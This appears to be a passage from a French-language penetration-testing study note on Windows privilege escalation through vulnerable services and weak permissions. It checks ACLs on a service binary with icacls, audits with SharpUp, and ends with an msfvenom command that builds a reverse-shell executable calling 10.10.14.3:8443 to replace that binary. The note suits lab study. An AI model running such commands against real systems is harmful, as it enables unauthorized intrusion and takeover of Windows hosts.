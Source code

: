 

- [ ] [[#Services Vulnérables]]
- [ ] [[#Weak Permissions]]
	- [ ] [[#Binaires de service modifiables]]
	- [ ] [[#Dossiers modifiables]]
	- [ ] [[#Fichiers modifiables]]
	- [ ] [[#Services modifiable]]
	- [ ] [[#Unquoted Service Path]]
	- [ ] [[#Droits sur le registre]]
	- [ ] [[#Autoruns modifiables]]



# Services Vulnérables

1. Identifier les applications installées

```cmd-session
wmic product get name
```

2. Chercher CVEs


# Weak Permissions

> [!TIP]
> Identifier les services lancés en tant qu'autre utilisateur


Gestion des ACLs avec icacls (natif) -> https://4sysops.com/archives/icacls-list-set-grant-remove-and-deny-permissions/#rtoc-8


### Identifier les weaks permissions avec SharpUp
https://github.com/GhostPack/SharpUp/

```powershell
.\SharpUp.exe audit
```


## Binaires de service modifiables

### 1. Vérifier les permissions sur le binaire

```powershell-session
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

### 2. Créer un binaire malveillant avec msfvenom

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f exe > SecurityService.exe
```
